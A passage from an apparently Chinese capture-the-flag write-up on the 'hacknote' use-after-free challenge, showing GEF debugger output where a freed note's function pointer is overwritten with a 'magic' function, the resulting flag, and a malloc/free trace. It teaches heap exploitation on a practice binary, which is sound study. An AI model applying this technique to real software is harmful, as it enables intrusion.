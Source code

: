 覆盖后，具体的值如下

```asm
gef➤  x/2xw 0x804b008
0x804b008:	0x08048986	0x0804b00a
gef➤  x/i 0x08048986
   0x8048986 <magic>:	push   ebp
```

可以看出，确实已经被覆盖为我们所想要的magic函数了。

最后执行的效果如下

```shell
[+] Starting local process './hacknote': pid 35030
[*] Switching to interactive mode
flag{use_after_free}----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

同时，我们还可以借助gef的heap-analysis-helper 来看一下整体的堆的申请与释放的情况，如下

```asm
gef➤  heap-analysis-helper 
[*] This feature is under development, expect bugs and unstability...
[+] Tracking malloc()
[+] Tracking free()
[+] Tracking realloc()
[+] Disabling hardware watchpoints (this may increase the latency)
[+] Dynamic breakpoints correctly setup, GEF will break execution if a possible vulnerabity is found.
[*] Note: The heap analysis slows down noticeably the execution. 
gef➤  c
Continuing.
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - malloc(32)=0x804b018
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(32)=0x804b050
[+] Heap-Analysis - free(0x804b018)
[+] Heap-Analysis - watching 0x804b018
[+] Heap-Analysis - free(0x804b008)
[+] Heap-Analysis - watching 0x804b008
[+] Heap-Analysis - free(0x804b050)
[+] Heap-Analysis - watching 0x804b050
[+] Heap-Analysis - free(0x804b040)
[+] Heap-Analysis - watching 0x804b040
[+] Heap-Analysis - malloc(8)=0x804b040
[+] Heap-Analysis - malloc(8)=0x804b008
[+] Heap-Analysis - Cleaning up
[+] Heap-Analysis - Re-enabling hardware watchpoints
[New process 36248]
process 36248 is executing new program: /bin/dash
[New process 36249]
process 36249 is executing new program: /bin/cat
[Inferior 3 (process 36249) exited normally]
```

这里第一个输出了两次，应该是gef工具的问题。

## 题目

